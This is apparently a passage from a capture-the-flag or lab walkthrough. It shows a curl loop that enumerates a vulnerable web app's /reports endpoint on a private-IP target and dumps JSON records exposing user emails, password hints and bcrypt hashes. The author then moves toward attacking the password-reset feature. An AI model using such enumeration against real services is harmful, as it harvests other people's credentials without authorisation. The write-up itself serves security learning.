 ### Enumerating Password Hashes

Using the same technique against `/reports`, I'm also able to get four password digests or hashes.

```
# curl -s 192.168.30.128/reports/{1..20}.json | jq -jaM
{
  "id": 1,
  "content": "offensive comment, not even clever.",
  "user": {
    "id": 17,
    "name": "xer",
    "email": "xer@zmail.com",
    "password_hint": "fave pronoun",
    "password_digest": "$2a$10$FLjo5cedRTmoBjWowcC08.WmHpvltVEmmVoN8P5j6JQW/PzU3qmTq",
    "remember_digest": null,
    "role": 1,
    "hits": 6,
    "last_seen_at": null,
    "banned": null,
    "created_at": "2017-10-23T09:39:42.856Z",
    "updated_at": "2018-04-11T15:07:37.743Z",
    "avatar_id": null,
    "reset_digest": null,
    "reset_sent_at": null
  },
  "blog": {
    "id": 4,
    "title": "Politics & religion thread",
    "content": "\nLet's discuss our political and religious beliefs. Try to keep it civil -- I will be monitoring this thread closely and handing out warns to anyone who starts making trouble.\n\nAs for my beliefs, I am a moderate upper wing Xen Scientologist, and I believe in equal wrongs for all.\n\t\t",
    "clearance": 0,
    "user_id": 5,
    "created_at": "2017-10-23T09:39:42.962Z",
    "updated_at": "2017-10-23T09:39:42.962Z"
  },
  "comment_id": 2,
  "created_at": "2017-10-23T09:39:42.998Z",
  "updated_at": "2017-10-23T09:39:42.998Z"
}
...
```

The password digests or `bcrypt` hashes have salt and a computational cost of 10 rounds; cracking them is a futile exercise and a waste of CPU cycles. We need a better way.

### Password Reset

Recall the blog post above on `password_resets`? Turns out the well-received RoR [tutorial](https://www.railstutorial.org/book) has a [chapter](https://www.railstutorial.org/book/password_reset) on it, and provides a clue on how to proceed.
